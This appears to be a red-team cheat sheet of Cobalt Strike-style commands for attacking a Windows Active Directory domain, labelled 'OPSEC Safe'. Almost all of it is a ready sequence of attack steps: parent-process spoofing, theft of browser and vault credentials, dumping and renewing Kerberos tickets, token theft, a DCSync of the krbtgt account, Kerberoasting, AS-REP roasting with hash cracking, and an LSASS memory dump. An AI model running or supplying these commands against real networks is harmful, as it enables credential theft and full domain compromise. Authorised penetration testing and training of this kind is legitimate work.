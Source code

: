 #### OPSEC Safe

PPID Spoof
```powershell
ppid 123
spawnto x64 C:\Windows\System32\svchost.exe
```

Browser credentials
```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpChrome\bin\Release\SharpChrome.exe logins
```

Windows Credential Manager
```powershell
run vaultcmd /listcreds:"Windows Credentials" /all
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault
```

```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe credentials /rpc
```

 Extracting tickets + renewing them
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x13491f /service:krbtgt /nowrap

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x13491f /service:ldap /nowrap
```

```powershell
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe describe /ticket:

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe renew /ticket:doIFq[...snip...]uQ09N /nowrap
```

```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DUBLIN.CONTOSO.COM /username:nwallace /password:FakePass /ticket:

steal_token [PID]
run klist

ls \\lon-fs-1\c$
dcsync DUBLIN.CONTOSO.COM DUBLIN\krbtgt
```
 
 Kerberoasting
```powershell
ldapsearch "(&(objectClass=user)(servicePrincipalName=*)(!(userAccountControl:1.2.840.113556.1.4.803:=1048576)))" --attributes samAccountName,servicePrincipalName,objectsid,ntsecuritydescriptor
```

```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /spn:MSSQLSvc/dub-sql-2.dublin.contoso.com /simple /nowrap

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:MSSQLSVC /simple /nowrap
```

```powershell
C:\Tools\hashcat.exe -a 0 -m 13100 .\kerb.hash .\example.dict -r .\rules\dive.rule
```

AS-REP Roasting
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /format:hashcat /nowrap
```

---

Nanodump Adpatix C2
```powershell
nanodump -w C:\Windows\System32\dotnet.tmp --valid

pypykatz lsa minidump dotnetdmp.tmp
```
